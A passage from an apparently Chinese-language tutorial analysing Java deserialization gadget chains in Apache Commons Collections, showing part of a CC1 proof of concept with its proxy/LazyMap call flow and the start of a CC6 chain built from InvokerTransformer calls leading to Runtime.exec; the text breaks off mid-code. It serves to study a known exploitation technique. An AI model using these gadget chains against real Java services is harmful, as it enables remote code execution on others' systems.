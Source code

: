 ```java
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

梳理下流程：

首先触发AnnotationInvocationHandler#readObject方法：

![1](/img/303.png)

我们将 this.memberValues 设置为 proxy_map ，由于这是一个代理对象，所以调用其方法时，会去调用其创建代理时设置的 handler 的invoke 方法。

![1](/img/305.png)

这个 proxy_map 设置的 handler 为这个 map_handler，同样是 InvocationHandler 这个类，接着会调用他的 invoke 方法：

![1](/img/307.png)

InvocationHandler#invoke 的78行代码中调用了 this.memberValues#get，此时的 this.memberValues 为之前设置好的 lazymap，所以这里调用的是 lazymap#get，从而触发后边的 rce 链。

所以第一个 handler 是为了触发 lazymap#get，而第二个 handler 实际上只是为了触发代理类所设置 handler 的 invoke 方法。但先从第二个再到第一个。

同样的这个链子在高版本还是会因为 sun.reflect.annotation.AnnotationInvocationHandler 发⽣了变化导致不再可⽤，

## CC6

### 环境搭建

JDK 1.8

commons-collections-3.1

### 利用链分析

CommonsCollections1 在 Java 8u71以后，因为 sun.reflect.annotation.AnnotationInvocationHandler#readObject 的逻辑变化了导致不能使用，CommonsCollections6 可以解决⾼版本Java的利⽤问题。

所以 CommonsCollections1 的后半段还是可以利用的：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
```